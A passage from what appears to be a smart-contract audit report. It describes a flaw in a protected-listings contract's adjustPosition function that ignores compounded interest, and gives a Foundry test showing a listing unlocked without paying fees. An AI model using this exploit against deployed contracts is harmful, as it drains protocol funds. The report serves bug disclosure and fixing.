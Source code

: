 ```solidity
            // Update the struct to reflect the new tokenTaken, protecting from overflow
413:        _protectedListings[_collection][_tokenId].tokenTaken += uint96(absAmount);
        }

        emit ListingDebtAdjusted(_collection, _tokenId, _amount);
    }
```
As can be seen in `L399` and `L413`, `_protectedListings[_collection][_tokenId].tokenTaken` is updated without considering compounded factor. Exploiting this vulnerability, user can unlock protected listing without paying any fee.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_adjustPositionError() public {
        erc721a.mint(address(this), 0);
        
        erc721a.setApprovalForAll(address(protectedListings), true);

        uint[] memory _tokenIds = new uint[](2); _tokenIds[0] = 0; _tokenIds[1] = 1;

        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // unlock protected listing for tokenId = 0
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 402055890410801920);
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 0.4 ether);
        protectedListings.adjustPosition(address(erc721a), 0, -0.4 ether);
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 0);
        protectedListings.unlockProtectedListing(address(erc721a), 0, true);
    }
```
In the above test code, we can see that `unlockPrice(address(erc721a), 0)` is `402055890410801920`, but after calling `adjustPosition(address(erc721a), 0, -0.4 ether)`, `unlockPrice(address(erc721a), 0)` decreases to `0`. So we unlocked protected listing paying only `0.4 ether` without paying any fee.

## Impact
User can unlock protected listing without paying any fee. It means loss of funds for the protocol.
On the other hand, if user increase `tokenTaken` in `adjustPosition()` function, increasement of fee will be inflated by compounded factor. it means loss of funds for the user.
